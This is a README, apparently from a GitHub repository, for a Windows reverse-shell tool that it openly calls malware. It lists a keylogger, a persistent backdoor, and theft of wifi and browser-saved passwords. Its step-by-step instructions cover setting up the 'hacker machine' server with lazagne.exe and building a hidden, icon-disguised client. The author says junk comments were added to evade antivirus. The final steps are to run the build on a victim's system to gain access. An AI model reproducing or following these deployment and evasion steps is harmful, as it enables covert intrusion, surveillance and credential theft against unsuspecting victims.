 # Reverse-shell-windows
Reverse shell for windows operating system

## Features
Currently this program has several features such as:
* Multi-client support
* Built-in keylogger
* Send command to all clients
* Capture screenshots
* Upload/download files
* Send messages
* Persistent backdoor
* Ability to browse files
* Open remote cmd
* Ability to shutdown/restart/lock pc
* Steal wifi passwords
* Steal browser saved passwords
* And more...
### Usage

#### 1. Install Python
Install ```python-3.7.2``` and ```python-pip```. Follow the steps from the below reference document based on your Operating System.
Reference: [https://docs.python-guide.org/starting/installation/](https://docs.python-guide.org/starting/installation/)


#### 2. Clone git repository
```bash
git clone "https://github.com/ramkishor-hosamane/Reverse-shell-windows.git"
```

#### 3. Install requirements in server (hacker machine) 
```bash
pip3 install -r requirements.txt
```
Also copy lazagne.exe along with server.py to server machine
#### 4. Run the server
```bash
python3 server.py
```
#### 5. Craft client file (the malware)
change ip address of host to servers ip address in client.py file. To do so find 114th line in client.py fill the ip address.(To by pass antivirus i have commented lines with some random text in between)
```bash
pyinstaller.exe --onefile --icon=youricon.ico --noconsole --add-data="dat;." client.py
```
#### 6. Run the malware in windows operating system 

#### 7. You'll Get access to victim system in server system 
